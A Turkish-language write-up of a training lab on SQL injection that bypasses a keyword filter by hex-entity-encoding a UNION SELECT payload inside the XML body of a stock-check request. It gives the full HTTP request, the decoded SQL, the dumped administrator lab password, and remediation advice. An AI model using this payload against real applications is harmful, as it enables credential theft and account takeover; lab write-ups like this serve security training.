


# SQL injection with filter bypass via XML encoding

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda ürün stok kontrolü için gönderilen XML request body içindeki `storeId` değeri SQL sorgusuna güvenli şekilde eklenmiyordu. Uygulama bazı SQL anahtar kelimelerini veya karakterlerini filtreliyordu; ancak XML içindeki karakterler entity encoding ile gönderildiğinde filtre atlatılabiliyordu.

Amaç, XML encoding kullanarak SQL injection filtresini bypass etmek, `users` tablosundan `administrator` kullanıcısının parolasını elde etmek ve bu hesapla giriş yaparak labı tamamlamaktı.

## 3. Exploitation Steps

1. Ürün sayfasında stok kontrol isteğini Burp Suite ile yakaladım ve `/product/stock` isteğini Repeater'a gönderdim. Request body XML formatındaydı ve `productId` ile `storeId` değerleri sunucuya gönderiliyordu.

2. SQL injection payload'ını doğrudan `storeId` alanına eklemek yerine Hackvertor'ın `hex_entities` tag'ini kullandım. Böylece payload XML entity encoding ile gönderildi ve uygulamanın SQL filtresi bypass edildi:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1 <@hex_entities>
        UNION SELECT username || '--' || password FROM users
        </@hex_entities>
    </storeId>
</stockCheck>
```

3. İstek gönderildiğinde response içinde stok bilgisinin yanında `users` tablosundan gelen kullanıcı adı ve parola değerleri de döndü. `administrator` kullanıcısının parolasını response içinde tespit ettim:

```text
administrator--2s8u7dp7kx4v5ye4e6q9
```



4. Elde ettiğim parola ile `administrator` hesabına giriş yaptım ve labı tamamladım.



## 4. Kullanılan Payloadlar

- XML encoding ile filtre bypass yaparak kullanıcı adı ve parolaları listelemek için:

```http
POST /product/stock HTTP/2
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1 <@hex_entities>UNION SELECT username || '--' || password FROM users</@hex_entities></storeId>
</stockCheck>
```

- SQL payload'ın decode edilmiş hali:

```sql
1 UNION SELECT username || '--' || password FROM users
```

## 5. Sonuç

- `/product/stock` endpoint'inde XML body içindeki `storeId` değerinin SQL sorgusuna dahil edildiğini tespit ettim.
- Uygulamanın SQL filtresinin doğrudan payload'ı engelleyebildiğini, ancak XML entity encoding ile bypass edilebildiğini doğruladım.
- Hackvertor `hex_entities` encoding kullanarak `UNION SELECT` payload'ını çalıştırdım.
- `users` tablosundan kullanıcı adı ve parola değerlerini response içinde elde ettim.
- Elde edilen parola ile `administrator` hesabına giriş yaparak labı tamamladım.

## 6. Etki

Bu zafiyet, saldırganın input filtrelerini encoding teknikleriyle aşarak SQL sorgusunu manipüle etmesine neden olabilir. Başarılı exploitation sonucunda veritabanındaki kullanıcı bilgileri, parolalar ve diğer hassas kayıtlar okunabilir; bu bilgilerle hesap devralma gerçekleştirilebilir.

## 7. Çözüm

- SQL sorgularında parametreli/prepared statement kullan.
- XML body içindeki tüm değerleri güvenilmeyen kullanıcı girdisi olarak ele al.
- Güvenliği blacklist tabanlı filtrelere veya anahtar kelime engellemeye dayandırma.
- XML parse işleminden sonra normalize edilmiş değeri doğrula ve tip kontrolü uygula.
- Kullanıcı girdilerini SQL sorgusuna doğrudan ekleme.
- Veritabanı kullanıcısına minimum yetki ver.
- Parolaları düz metin olarak saklama; güçlü, yavaş ve tuzlu hash algoritmaları kullan.
